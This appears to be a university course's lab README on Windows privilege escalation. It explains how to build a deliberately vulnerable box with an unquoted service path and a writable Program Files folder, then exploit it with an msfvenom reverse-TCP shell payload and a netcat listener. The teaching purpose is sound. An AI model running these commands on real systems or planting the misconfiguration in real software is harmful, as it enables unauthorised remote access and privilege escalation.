 # Security First Principles: Least Privilege Labs
Created for DSU's Cyber Operations I course

| Box Name | Type |
| -------- | ------- |
| Linux Exercises | Kali 2023.3 |
| Windows Exercises | Windows 10 Pro build 19044 |
* Windows Defender is disabled via Group Policy on the Windows Exercises box.

## Windows PrivEsc (Horizontal/Vertical)
### Configuration
#### Horizontal PrivEsc via Unquoted Service Path
1. Add an administrative user and a standard user user to the box, with different passwords. Use the administrative user for the following steps.
2. Create a "Step 4" folder on the desktop of the administrative user.
3. Create a path in Program Files three folders deep with a dummy service executable (`C:\Program Files\[Level 1 Name]\[Level 2 Name]\[Dummy Service Executable]`).
     * Ensure the `Level 2 Name` contains a space (ex. `Automated Service`)
     * This dummy executable won't be used, so pretty much any executable that isn't a shell works. I used `iexplore.exe`.
5. Edit the `Level 1 Name` folder properties to grant all users write permission (Properties > Security > Users > Edit > Write).
6. Create a new registry key in `HKLM\SYSTEM\CurrentControlSet\Services`. This key will be the service name.
7. Add the following values to the key:

    | Name | Type | Data |
    | -------- | ------- | ------- |
    | (Default) | REG_SZ | (value not set) |
    | DisplayName | REG_SZ | [Service Name] |
    | ErrorControl | REG_DWORD | 0x00000001 (1) |
    | ImagePath | REG_EXPAND_SZ | [Path to Dummy Service Executable **without quotes**] |
    | ObjectName | REG_SZ | .\\[User Name] |
    | Start | REG_DWORD | 0x00000002 (2) |
    | Type | REG_DWORD | 0x00000010 (16) |

8. Restart the box.
9. Open the Services MMC snap-in. The `[Service Name]` should appear in the list. Ensure the startup type is set to Automatic so it executes when the box starts.

#### Exploitation
#### Horizontal PrivEsc via Unquoted Service Path
1. Log on to the standard user.
2. Create a simple TCP reverse shell with `msfvenom` on the Linux Exercises box:
      * In the example above, this would be `Automated.exe`.
      * There is a preconfigured binary with IP address 192.168.0.2 and name `Automated.exe` in the Windows PrivEsc archive in the repo.
          * Password: `infected`

```
msfvenom -p windows/shell_reverse_tcp LHOST=<IP address of Linux Exercises box> LPORT=1337 -f exe -o [First word of Level 2 Name].exe
```

2. SCP the generated file from the LInux Exercises box to `C:\Program Files\[Level 1 Name]` on the Windows Exercises box.
3. Start a Netcat listener on the Linux Exercises box with `nc -nvlp 1337`.
4. Restart the Windows Exercises box. A Windows shell should spawn in the Netcat session with the permissions of the adminsitrative user.

## Linux Horziontal PrivEsc

## Linux Vertical PrivEsc
